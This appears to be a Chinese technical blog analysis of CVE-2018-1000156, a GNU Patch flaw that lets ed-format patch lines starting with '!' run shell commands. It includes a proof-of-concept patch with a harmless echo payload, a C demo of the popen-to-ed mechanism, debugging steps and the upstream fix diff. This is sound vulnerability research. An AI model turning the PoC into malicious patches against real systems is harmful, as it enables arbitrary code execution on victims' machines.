





<!-- more -->

### 漏洞背景

使用`ed`格式并用`!`开头的补丁，会导致代码执行

#### 影响版本

> GNU Patch 2.7.6及以下 （笔者下载了GNU Patch 2.7.1~6源码编译测试，都存在该问题）

GNU Patch 源码下载地址：https://ftp.gnu.org/gnu/patch/

### 漏洞分析

#### Poc代码

```
--- a	2018-13-37 13:37:37.000000000 +0100
+++ b	2018-13-37 13:38:38.000000000 +0100
1337a
1,112d
!echo "pwn successfully!"

```

#### 调试过程

gdb 设置参数运行：

> set args test < ./poc.patch  
> b do_ed_script

#### 漏洞成因



函数原型

> FILE *popen(const char *command, const char *type);

如果type是`"w"`则文件指针连接到command的`标准输入`,会将`patch`的内容传入`/bin/ed/ - ./test.oUm4Sb5`的输入中,`test.oUm4Sb5`是之前`make_tempfile`创建的临时文件。

`popen()`函数通过创建一个管道，调用`fork()`产生一个子进程，执行一个shell以运行命令来开启一个进程

启动的进程为`/bin/ed`，而`!`在`ed`编辑器中表示后面跟的是操作系统命令，从而导致代码执行。



#### 漏洞demo

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>
int main()
{
        FILE *pipefp = 0;
        char *buf[200];
        static FILE *pfp;
        sprintf(buf,"%s","/bin/ed - ./temp.txt");
        fflush(stdout);
        pipefp = popen(buf,"w");

        sprintf(buf,"%s","1337a\n1,112d\n!echo 'pwn successfully'\n");
        fwrite(buf,1,200,pipefp);
        pclose(pipefp);
        return 0;
}
```

popen处fork了父进程和子进程，父进程通过fwrite将运行的命令传入管道，子进程此时打开了/bin/ed，接受了命令，并执行。

### 运行结果





### 补丁分析

```
diff --git a/src/pch.c b/src/pch.c
index bc6278c..f97a4dc 100644
--- a/src/pch.c
+++ b/src/pch.c
@@ -33,6 +33,7 @@
 # include <io.h>
 #endif
 #include <safe.h>
+#include <sys/wait.h>
 
 #define INITHUNKMAX 125			/* initial dynamic allocation size */
 
@@ -2389,22 +2390,25 @@ do_ed_script (char const *inname, char const *outname,
     static char const editor_program[] = EDITOR_PROGRAM;
 
     file_offset beginning_of_this_line;
-    FILE *pipefp = 0;
     size_t chars_read;
+    FILE *tmpfp = 0;
+    char const *tmpname;
+    int tmpfd, tmpfl;
+    pid_t pid;
+
+    if (! dry_run && ! skip_rest_of_patch)
+      {
+	/* Write ed script to a temporary file: this causes ed to abort on
+	   invalid commands.  If we used a pipe instead, ed would continue
+	   after invalid commands.  */
+	tmpfd = make_tempfile (&tmpname, 'e', NULL, O_RDWR | O_BINARY, 0);
+	if (tmpfd == -1)
+	  pfatal ("Can't create temporary file %s", quotearg (tmpname));
+	tmpfp = fdopen (tmpfd, "w+b");
+	if (! tmpfp)
+	  pfatal ("Can't open stream for file %s", quotearg (tmpname));
+      }
 
-    if (! dry_run && ! skip_rest_of_patch) {
-	int exclusive = *outname_needs_removal ? 0 : O_EXCL;
-	assert (! inerrno);
-	*outname_needs_removal = true;
-	copy_file (inname, outname, 0, exclusive, instat.st_mode, true);
-	sprintf (buf, "%s %s%s", editor_program,
-		 verbosity == VERBOSE ? "" : "- ",
-		 outname);
-	fflush (stdout);
-	pipefp = popen(buf, binary_transput ? "wb" : "w");
-	if (!pipefp)
-	  pfatal ("Can't open pipe to %s", quotearg (buf));
-    }
     for (;;) {
 	char ed_command_letter;
 	beginning_of_this_line = file_tell (pfp);
@@ -2415,14 +2419,14 @@ do_ed_script (char const *inname, char const *outname,
 	}
 	ed_command_letter = get_ed_command_letter (buf);
 	if (ed_command_letter) {
-	    if (pipefp)
-		if (! fwrite (buf, sizeof *buf, chars_read, pipefp))
+	    if (tmpfp)
+		if (! fwrite (buf, sizeof *buf, chars_read, tmpfp))
 		    write_fatal ();
 	    if (ed_command_letter != 'd' && ed_command_letter != 's') {
 	        p_pass_comments_through = true;
 		while ((chars_read = get_line ()) != 0) {
-		    if (pipefp)
-			if (! fwrite (buf, sizeof *buf, chars_read, pipefp))
+		    if (tmpfp)
+			if (! fwrite (buf, sizeof *buf, chars_read, tmpfp))
 			    write_fatal ();
 		    if (chars_read == 2  &&  strEQ (buf, ".\n"))
 			break;
@@ -2435,13 +2439,50 @@ do_ed_script (char const *inname, char const *outname,
 	    break;
 	}
     }
-    if (!pipefp)
+    if (!tmpfp)
       return;
-    if (fwrite ("w\nq\n", sizeof (char), (size_t) 4, pipefp) == 0
-	|| fflush (pipefp) != 0)
+    if (fwrite ("w\nq\n", sizeof (char), (size_t) 4, tmpfp) == 0
+	|| fflush (tmpfp) != 0)
       write_fatal ();
-    if (pclose (pipefp) != 0)
-      fatal ("%s FAILED", editor_program);
+
+    if ((tmpfl = fcntl (tmpfd, F_GETFD)) == -1
+        || fcntl (tmpfd, F_SETFD, tmpfl & ~FD_CLOEXEC) == -1)
+      pfatal ("Can't clear close-on-exec flag of %s", quotearg (tmpname));
+
+    if (lseek (tmpfd, 0, SEEK_SET) == -1)
+      pfatal ("Can't rewind to the beginning of file %s", quotearg (tmpname));
+
+    if (! dry_run && ! skip_rest_of_patch) {
+	int exclusive = *outname_needs_removal ? 0 : O_EXCL;
+	assert (! inerrno);
+	*outname_needs_removal = true;
+	copy_file (inname, outname, 0, exclusive, instat.st_mode, true);
+	sprintf (buf, "%s %s%s", editor_program,
+		 verbosity == VERBOSE ? "" : "- ",
+		 outname);
+	fflush (stdout);
+
+	pid = fork();
+	if (pid == -1)
+	  pfatal ("Can't fork");
+	else if (pid == 0)
+	  {
+	    dup2 (tmpfd, 0);
+	    execl ("/bin/sh", "sh", "-c", buf, (char *) 0);
+	    _exit (2);
+	  }
+	else
+	  {
+	    int wstatus;
+	    if (waitpid (pid, &wstatus, 0) == -1
+	        || ! WIFEXITED (wstatus)
+		|| WEXITSTATUS (wstatus) != 0)
+	      fatal ("%s FAILED", editor_program);
+	  }
+    }
+
+    fclose (tmpfp);
+    safe_unlink (tmpname);
 
     if (ofp)
       {

```
补丁是创建了临时文件来代替pipe操作，使用文件的方式会使得ed因为无效的命令而退出，而之前的pipe操作遇到无效的命令后会继续执行。但popen的内部实现其实也是通过先fork，再dup2(fd,0)，最后执行execl，补丁只是模拟了这一过程，并用文件的方式代替了管道操作。



其他缓解措施：以/bin/ed -r的形式启动，而-r参数的含义是：

> -r, --restricted           run in restricted mode

运行在严格的模式下，它禁止从当前目录编辑文件和执行shell命令。

### 参考链接

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000156

https://savannah.gnu.org/bugs/index.php?53566

https://www.ibm.com/support/knowledgecenter/zh/ssw_aix_71/com.ibm.aix.cmds2/ed.htm